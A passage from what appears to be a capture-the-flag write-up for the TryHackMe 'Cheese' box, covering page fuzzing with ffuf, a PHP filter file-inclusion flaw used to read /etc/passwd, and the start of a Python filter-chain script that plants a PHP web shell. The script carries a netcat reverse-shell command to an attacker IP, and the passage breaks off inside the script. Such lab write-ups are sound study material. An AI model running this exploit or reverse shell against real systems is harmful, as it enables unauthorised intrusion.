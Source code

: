 ## Shell as www-data

#### Fuzzing HTML pages

```console
$ ffuf -u http://cheese.thm/FUZZ.html -w /usr/share/wordlists/dirb/big.txt
```

After fuzzing for the html pages, we found three interesting web pages:
- `/messages.html`
- `/users.html`
- `/orders.html`

There is nothing interesting on `users` and `orders` page, but we can see a link on `messages` page which redirects us to:
`http://cheese.thm/secret-script.php?file=php://filter/resource=supersecretmessageforadmin`

We can exploit this php filter to read sensitive file :

![/etc/passwd File](/assets/images/TryHackME-CheeseCTF/passwd.png)

Here we can see there is one user named `comte` on the box by reading `/etc/passwd` file. I tried to include files from my local machine but it was not working. We can read `/proc/self/cmdline` to know that the web app is running by `www-data`. So, we can't read any files in comte user's directory. We can use the following python script to get reverse shell as www-data that I got from [here](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters) :

```python
import requests

url = "http://cheese.thm/super-secret.php"
file_to_use = "php://temp"
command = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.x.x.x 4444 >/tmp/f"

#<?=`$_GET[0]`;;?>
base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4"

conversions = {
    'R': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
    'B': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C': 'convert.iconv.UTF8.CSISO2022KR',
    '8': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'f': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
    's': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
    'z': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
    'U': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'P': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
    'V': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
    '0': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
```